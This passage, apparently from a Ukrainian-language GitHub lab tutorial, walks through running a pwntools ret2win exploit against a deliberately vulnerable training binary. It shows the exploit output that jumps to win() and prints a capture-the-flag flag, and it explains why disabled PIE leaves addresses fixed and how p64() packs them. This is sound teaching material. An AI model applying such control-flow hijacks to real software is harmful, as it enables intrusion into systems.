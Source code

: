 ### Крок 4: Запустіть exploit

```bash
chmod +x exploit.py
python3 exploit.py
```

### Крок 5: Отримайте прапор

Вивід:
```
[*] '/path/to/build/stage04_demo_no_offset'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Адреса win(): 0x401136
[+] Starting local process '../build/stage04_demo_no_offset': pid 12345
[*] Відправляємо payload: 3611400000000000
[+] Receiving all data: Done (24B)
[*] Process '../build/stage04_demo_no_offset' stopped with exit code 0
[+] Прапор: FLAG{STAGE4_DIRECT_JUMP}
```

## 🔍 Детальний розбір

### Чому PIE=OFF важливо?

```bash
checksec --file=../build/stage04_demo_no_offset
```

```
PIE:      No PIE (0x400000)
```

**PIE OFF означає:**
- Адреси функцій **фіксовані** при кожному запуску
- `win()` завжди на **0x401136** (або іншій фіксованій адресі)
- Не потрібен leak адреси

**Якби PIE ON:**
```
Запуск 1: win() на 0x555555554136
Запуск 2: win() на 0x55555557a136  ← Інша адреса!
Запуск 3: win() на 0x5555555f2136  ← Знову інша!
```
→ Потрібен був би витік адреси

### Що таке p64()?

`p64()` - це функція pwntools для **пакування** числа в байти.

```python
from pwn import *

# Число → Байти (Little Endian)
addr = 0x401136
packed = p64(addr)

print(f"Число:    {hex(addr)}")
print(f"Байти:    {packed}")
print(f"Hex:      {packed.hex()}")
print(f"Довжина:  {len(packed)} байт")
```
